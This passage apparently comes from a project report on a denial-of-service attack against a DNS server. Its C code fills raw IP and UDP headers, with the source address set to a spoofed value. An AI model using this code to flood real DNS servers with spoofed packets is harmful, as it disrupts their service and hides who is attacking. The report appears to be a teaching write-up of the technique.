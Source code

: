 Fortunately, we did not need to define our own structure for the IP header. Instead, we used the IP header provided with the ` linux/ip.h` library:

```c
void fill_ip(struct iphdr *ip) {
    ip->ihl      = 5;  // Header size = 5 * 32 bit
    ip->version  = 4;  // IPv4
    ip->tos      = 16; // low delay
    ip->id       = htons(rand() & 0xFFFF); // randomly assignning ip-id
    ip->ttl      = 64; // hops
    ip->protocol = 17; // UDP
    ip->saddr = inet_addr("1.2.3.4");   //spoofing ip
    ip->daddr = inet_addr(DNS_SERVER);  // DNS ip
}
```

Notice that, we did not set the **Total Length** and **Header Checksum** field in the IP header. These two fields are set by the kernel when the `IP_HDRINCL` option is set.



### 2.5. Filling the UDP Header

The structure of the UDP header is as follows: 

<img src="https://raw.githubusercontent.com/MahirSez/DoS-Attack-on-DNS-Server-with-Spoofed-IP/b6445780f41b92615f0c00a642e4ae972626c6b8/report/final-report/UDP%20header.svg" style="zoom: 67%;" />

We used the UDP header structure provided with the `linux/udp.h` library to fill the UDP header:

```c
void fill_udp(struct udphdr *udp, size_t len) {
    udp->source = htons(10);        // source port
    udp->dest = htons(DNS_PORT);    // DNS port
    udp->len = htons(len);          // length of UDP header + DNS header + DNS question
}
```

Notice that, the `len` field requires the length of the **UDP header**, **DNS header** and **DNS question**. As the DNS question can be of variable length, we fill the UDP header after filling the DNS header and the DNS question.



### 2.6. Filling the DNS Header

The structure of the DNS header is as follows: 
